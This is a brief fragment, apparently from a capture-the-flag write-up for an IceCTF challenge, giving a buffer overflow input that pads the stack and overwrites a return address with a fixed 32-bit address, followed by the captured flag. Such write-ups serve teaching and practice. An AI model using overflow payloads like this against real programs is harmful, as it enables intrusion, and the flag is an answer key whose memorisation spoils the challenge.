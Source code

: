 Input: "AAAABBBBCCCCDDDDAAAABBBBCCCC$(printf '\x0b\x85\x04\x08')"
IceCTF{i_dont_think_cavemen_overflowed_buffers}
